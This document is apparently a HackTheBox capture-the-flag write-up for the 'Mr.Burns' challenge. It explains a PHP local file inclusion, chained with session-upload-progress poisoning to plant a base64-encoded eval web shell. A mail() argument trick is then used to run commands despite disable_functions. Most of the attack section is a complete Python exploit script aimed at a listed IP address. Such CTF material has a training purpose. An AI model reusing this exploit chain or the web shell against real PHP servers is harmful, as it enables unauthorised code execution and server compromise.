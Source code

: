 ## Mr.Burns - Hackthebox
<hr />  
   
     
### Stricts  
- open_basedir("/tmp:/www")  
- disable_functions = exec, system, popen, proc_open, shell_exec, passthru, ini_set, putenv, pfsockopen, fsockopen, socket_create  

### Overview  
- Local File Inclusion  
```php  
class MinerController 
{
    public function show($router, $params) 
    {   
        $miner_id = $params[0];
        include("./miners/${miner_id}");
...
```  
- Session upload progress  
```
session.upload_progress.enabled	      On	      On
```  
- Session save path set `no-value` ==> Default path is `/tmp`  
```
session.save_path	      no value	        no value  
```  
- Web path: `/www`  


### Exploit  
#### Step by step to exploit
- Upload `PHP_SESSION_UPLOAD_PROGRESS` and `malicous php code`
- Try to include session file stored at `/tmp` and write web-shell  
- Create a bash file store command get flag  
- Use `mail()` function to execute bash file was created  

#### My code exploit  
  
```python3  
import requests
import base64
from urllib.parse import quote

r = requests.Session()
url = 'http://46.101.23.188:31323'


def write_shell(session_name, web_path):
	payload = f"<?php file_put_contents('{web_path + '/shell.php'}',base64_decode('PD9waHAgZXZhbCgkX0dFVFsiY21kIl0pOyA/Pg==')); ?>"
	# PD9waHAgZXZhbCgkX0dFVFsiY21kIl0pOyA/Pg== : eval param $_GET["cmd"]
	cookies = {'PHPSESSID': session_name}
	data= {'PHP_SESSION_UPLOAD_PROGRESS': 'xxxxxxxxxxxxxxxxxxxx'}
	files = {
		f'{payload}': 'a' * 100
	}
	
	print("[+] Post PHP_SESSION_UPLOAD_PROGRESS ")
	r.post(url + '/info', cookies=cookies, files=files, data=data)

	print(f"[+] Include session file stored at /tmp/sess_{session_name}")
	r.get(url + '/miner/' + quote(quote(f'../../../tmp/sess_{session_name}', safe='')))

	print(f"[+] Web shell: {url + '/shell.php?cmd='}")


if __name__ == "__main__":
	SESSION_NAME = 'nhienit'
	WEB_PATH = '/www'
	print("[+] Try to write web shell ")
	write_shell(SESSION_NAME, WEB_PATH)

	print("[+] Write bash file to read flag")
	bash_command = "/readflag > /www/flag.txt"
	payload = f"$file=fopen('/www/getflag', 'w'); fwrite($file, '{bash_command}'); chmod('getflag', 0777);";
	requests.get(url + '/shell.php?cmd=' + quote(payload, safe=''))

	print("[+] Use mail() to trigger getflag binary file")
	payload = "mail('', '', '', '', '-H \"exec /www/getflag\"');"
	requests.get(url + '/shell.php?cmd=' + quote(payload))

	print("[+] Try to get flag")
	flag = r.get(url + '/flag.txt')

	print(flag.text)
```
  















